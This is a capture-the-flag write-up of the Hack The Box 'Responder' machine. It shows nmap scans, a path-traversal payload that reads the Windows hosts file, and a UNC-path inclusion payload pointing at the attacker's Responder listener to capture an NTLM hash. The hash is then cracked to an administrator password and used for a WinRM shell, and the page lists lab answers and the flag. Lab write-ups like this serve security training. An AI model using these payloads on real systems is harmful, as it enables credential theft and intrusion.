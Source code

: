 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Responder

## <mark style="color:blue;">Description</mark>

* **Tier **<mark style="color:green;">**->**</mark>** 1**
* **Difficult** <mark style="color:green;">**->**</mark> Very Easy
* **OS** <mark style="color:green;">**->**</mark> Linux
* **Tags **<mark style="color:green;">**->**</mark> WinRM / Custom Applications / Protocols / XAMPP / SMB / Responder / PHP\
  &#x20;             Reconnaissance / Password Cracking / Hash Capture / Remote File Inclusion\
  &#x20;             Remote Code Execution

<figure><img src="../../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>



## <mark style="color:blue;">Write-up</mark>

* We start doing an initial scan

<pre class="language-bash" data-line-numbers><code class="lang-bash"><strong>nmap -p- -Pn --min-rate 2000 10.129.215.213
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

***

* Now we can make an exhaustive scan

<pre class="language-bash" data-line-numbers><code class="lang-bash"><strong>nmap -p80 -sVC 10.129.215.213
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

***

* As it is an http on port 80, it means is a web page, so we can go an check it on the browser. It redirect us to a domain named _unika.htb_ but it cannot connect to the server.

<figure><img src="../../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>



***

* With this we can answer the first question

<figure><img src="../../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

> Answer: _**unika.htb**_

***

* The reason why the page does not show us content is because isn't in our list of known hosts. To fix this we will add it modifying the _/etc/hosts_ file

{% code lineNumbers="true" %}
```bash
sudo nano /etc/hosts
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

***

* Now we can reload the page and it will work properly

<figure><img src="../../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

***

* We can get some information about the page technologies from _Wappalyzer_

<figure><img src="../../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

***

* With this we can answer the next question

<figure><img src="../../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

> Answer: _**php**_

***

* As we navigate through the page we find in the top rigth corner a slider to select the language of the page

<figure><img src="../../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

***

* If we select one different from english, the language of all the page will change and the URL will show some parameters reflecting this action

<figure><img src="../../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

***

* Then we can answer the next question

<figure><img src="../../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

> Answer: _**page**_



***

* Now we can abuse of the parameters to make a LFI attack to list the contents of the server. The attemp is successfull and give us the content of the asked file. Note that we use a payload for a windows server because _**Wappalyzer**_ told us this information.

{% code title="Payload" lineNumbers="true" %}
```url
page=../../../../../../../../windows/system32/drivers/etc/hosts
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

***

* With  this and some research we can answer some questions

<figure><img src="../../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

> Answer: ../../../../../../../../windows/system32/drivers/etc/hosts

***

<figure><img src="../../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

> Answer: _**//10.10.14.6/somefile**_

***

<figure><img src="../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

> Answer: _**New Technology Lan Manager**_

***

<figure><img src="../../../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

> Answer: _**-I**_

***

<figure><img src="../../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

> Answer: _**John The Ripper**_

***

* Now we will use the _responder_ utility to get the credentials of the target. First we need to configure the tool, we modify the R_esponder.config_ file to set the value of _SMB_ to _On_.

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nano /usr/share/responder/Responder.conf
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

***

* With this set we initialize the tool specifying the network interface linked to the Hack The Box VPN (normally _tun0_)

<figure><img src="../../../.gitbook/assets/image (161).png" alt=""><figcaption><p>Snippet</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

***

* With this we can go to the vulnerable parameter of URL and make a RFL to our machine to get the credentials.

{% code title="Payload" overflow="wrap" lineNumbers="true" %}
```url
page=//10.10.14.195/somefile
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

***

* As seen above, the page display us an error but if we check the responder running service it have catched the credentials of the target.

<figure><img src="../../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

***

* The most important part is the hash we have obtained so we save it in a text file.

<figure><img src="../../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

***

* Now we can try to break the hash using the _John The Ripper_ tool. We will see the cracking process was successful and we have got the passwword _badminton_ for the uswer _Administrator_

<figure><img src="../../../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>

***

* With this and some research we can answer some questions

<figure><img src="../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

> Answer:  _**badminton**_

***

<figure><img src="../../../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

> Answer: _**5985**_

***

* With this credentials we can use the _**evil-winrm**_ tool to connect  to a shell of the windows machine

<figure><img src="../../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

***

* If we search through the system, we will find a file called _flag.txt_ in the _C:\Users\mike\Desktop_ folder

<figure><img src="../../../.gitbook/assets/image (168).png" alt=""><figcaption></figcaption></figure>

***

* Finally we can check the content of the file with `type flag.txt` and exit from the windows system

<figure><img src="../../../.gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>

***

* With this we have got the root flag and have pawned the machine

<figure><img src="../../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

> Answer: _**ea81b7afddd03efaa0945333ed147fac**_
